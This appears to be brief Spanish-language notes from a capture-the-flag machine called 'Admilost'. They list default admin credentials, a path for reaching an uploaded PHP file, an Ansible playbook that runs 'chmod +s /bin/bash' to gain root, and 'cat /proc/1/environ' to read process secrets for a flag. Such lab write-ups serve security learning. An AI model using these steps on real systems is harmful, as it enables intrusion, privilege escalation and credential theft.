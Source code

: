 # Admilost

- ***Usuario:*** admin
- ***Contraseña:*** admin123


### Acceder al archivo subido

`http://admilost.echocity-f.com/adm_my_files/announcements/images/{nombre_archivo.php}`

```
---
- name: Run a command as root using su
  hosts: localhost
  tasks:
    - name: Execute command as root
      shell: 'chmod +s /bin/bash'

```


#### última bandera que encontré (env)

`cat /proc/1/environ`